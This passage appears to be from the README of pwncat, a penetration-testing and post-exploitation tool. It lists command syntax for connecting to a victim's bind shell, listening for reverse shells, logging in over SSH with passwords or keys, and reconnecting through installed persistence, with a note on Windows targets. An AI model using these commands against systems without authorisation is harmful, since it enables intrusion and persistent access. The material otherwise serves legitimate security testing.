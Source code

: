 ### Connecting to a Victim

The command line parameters for pwncat attempt to be flexible and accept
a variety of common connection syntax. Specifically, it will try to accept
common netcat and ssh like syntax. The following are all valid:

```sh
# Connect to a bind shell
pwncat-vl connect://10.10.10.10:4444
pwncat-vl 10.10.10.10:4444
pwncat-vl 10.10.10.10 4444
# Listen for reverse shell
pwncat-vl bind://0.0.0.0:4444
pwncat-vl 0.0.0.0:4444
pwncat-vl :4444
pwncat-vl -lp 4444
# Connect via ssh
pwncat-vl ssh://user:password@10.10.10.10
pwncat-vl user@10.10.10.10
pwncat-vl user:password@10.10.10.10
pwncat-vl -i id_rsa user@10.10.10.10
# SSH w/ non-standard port
pwncat-vl -p 2222 user@10.10.10.10
pwncat-vl user@10.10.10.10:2222
# Reconnect utilizing installed persistence
#   If reconnection fails and no protocol is specified,
#   SSH is used as a fallback.
pwncat-vl reconnect://user@10.10.10.10
pwncat-vl reconnect://user@c228fc49e515628a0c13bdc4759a12bf
pwncat-vl user@10.10.10.10
pwncat-vl c228fc49e515628a0c13bdc4759a12bf
pwncat-vl 10.10.10.10
```

By default, pwncat **assumes the target platform is Linux**. In order to
connect to a Windows reverse or bind shell, you must pass the `--platform/-m`
argument:

```shell
pwncat-vl -m windows 10.10.10.10 4444
pwncat-vl -m windows -lp 4444
```

For more information on the syntax and argument handling, see the
help information with ``pwncat-vl --help`` or visit the [documentation].

## Docker Image

The recommended installation method is a Python virtual environment. This
provides the easiest day-to-day usage of `pwncat`. However, there has been
interest in using `pwncat` from a docker image, so I have provided a
Dockerfile which provides a working `pwncat` installation. To build the image
use:


[documentation]: https://pwncat.readthedocs.io/en/latest
[pwncat-windows-c2]: https://github.com/calebstewart/pwncat-windows-c2
[BadPotato]: https://github.com/calebstewart/pwncat-badpotato